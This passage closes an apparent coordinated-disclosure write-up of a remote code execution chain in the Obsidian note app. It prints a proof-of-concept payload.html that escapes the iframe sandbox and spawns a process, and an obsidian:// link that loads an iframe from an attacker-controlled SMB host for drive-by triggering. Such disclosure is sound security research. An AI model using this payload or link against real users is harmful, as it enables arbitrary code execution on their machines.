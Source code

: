 
This file gets loaded inside the first iframe, which then loads `obsidian.json` in a sub-iframe.
`obsidian.json` is used internally by the Obsidian app and contains the mappings of file system paths to different vaults.
Both iframes reside in the same origin (`app://local`), allowing read access.
We get the path to the currently opened vault where our initial iframe and the payload file (`payload.html`) resides.
Knowing the storage locations, we can now load the payload file in the `app://obsidian.md`-origin with some path traversal and the actual file system path.
Since our payload iframe now has the same origin as the main window we can escape the sandbox and get arbitrary code execution.

`payload.html` delivered within the malicious vault (alongside `exploit.md`):

```html
<html>
<head>
<script>
window.parent.module.__proto__.require("child_process").spawnSync("calc.exe")
</script>
</head>
<body>
payload
</body>
</html>
```

The victim just needs to trigger a rendering of the `iframe` either automatically or by accessing reading mode of the `exploit.md` file.

Alternatively this could be triggered by a malicious link on any website!
Obsidian registers the `obsidian://`-protocol [handler](https://help.obsidian.md/Advanced+topics/Using+obsidian+URI), meaning any link starting with `obsidian://` will be opened in the application.
Through this mechanism we could create a new file with the content of the initial `exploit.md` above in the "Obsidian Help" vault which exists by default.
Example: `obsidian://new?&vault=Obsidian%20Help&file=x&content=%3Ciframe%20src%3D%22app%3A%2F%2Flocal%2F%255C%255Cour-smb-server.tld%255Cfolder%255Cexploit.html%22%3E%3C%2Fiframe%3E`

So this vulnerability is especially dangerous because it could be triggered in a drive-by style and not even requiring intentionally downloading and opening an untrusted vault.

![PoC - IFrame Sandbox Bypass and Path Traversal to RCE](obsidian-rce.mp4)


## Conclusion

The last vulnerability ("IFrame Sandbox Bypass and Path Traversal to RCE") was actually very interesting to exploit as it combined several different weaknesses to achieve code execution.

After the initial delay the Obsidian developers were very responsive and communication was very good. 
They quickly started working on the fixes and soon afterwards delivered an updated version.


---

Changelog:
- 12.02.2022 Initial writeup
- 26.03.2022 Minor updates
- 14.07.2022 Published post after 3 months time for updates as coordinated